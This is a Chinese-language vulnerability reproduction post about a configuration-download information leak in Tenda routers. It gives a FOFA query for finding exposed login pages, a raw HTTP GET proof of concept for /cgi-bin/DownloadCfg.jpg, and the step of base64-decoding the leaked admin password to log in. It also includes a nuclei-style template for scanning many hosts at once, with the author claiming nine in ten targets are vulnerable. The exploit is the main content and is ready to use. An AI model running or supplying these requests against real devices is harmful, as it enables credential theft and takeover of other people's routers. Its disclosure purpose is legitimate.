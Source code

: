# 原创
：  漏洞复现--Tenda路由器DownloadCfg信息泄露

# 漏洞复现--Tenda路由器DownloadCfg信息泄露

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！**

### 一：漏洞描述

Tenda是一家专门提供网络设备和解决方案的公司，其中最知名的产品之一是路由器。Tenda路由器在家庭和小型办公室中非常受欢迎，因为它们提供了稳定的无线网络连接和易于设置的功能。该产品存在信息泄露漏洞，攻击者可获得路由器后台账号密码。

### 二:漏洞影响版本

Tenda-路由器

### 三：网络空间测绘查询

fofa:<br/> `title="Tenda | LOGIN"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e44da381d276a278f31e68776569cadc.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/19c356b41913311edd582e439fc62e73.jpeg"/><br/> POC:

```
GET /cgi-bin/DownloadCfg.jpg HTTP/1.1
Host: x.x.x.x
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/52cfd19ad76bd61058e92d9006a92b9b.jpeg"/><br/> 密码base64解码<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/6be3b75b4edcf71064b161f7cafe4dd4.jpeg"/><br/> 成功登录

### 五：批量验证

```
id: Tenda-router-information-leaked

info:
  name: Tenda-router-information-leaked
  author: 芝士土拨鼠
  severity: medium
  description: Tenda是一家专门提供网络设备和解决方案的公司，其中最知名的产品之一是路由器。Tenda路由器在家庭和小型办公室中非常受欢迎，因为它们提供了稳定的无线网络连接和易于设置的功能。该产品存在信息泄露漏洞，攻击者可获得路由器后台账号密码。

requests:
  - raw:
      - |+
        GET /cgi-bin/DownloadCfg.jpg HTTP/1.1
        Host: {{Hostname}}
        Cache-Control: max-age=0
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - sys
      - type: status
        status:
          - 200

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/3fec2975f0765f48a38c8dae9f402a6e.jpeg"/><br/> 十中九

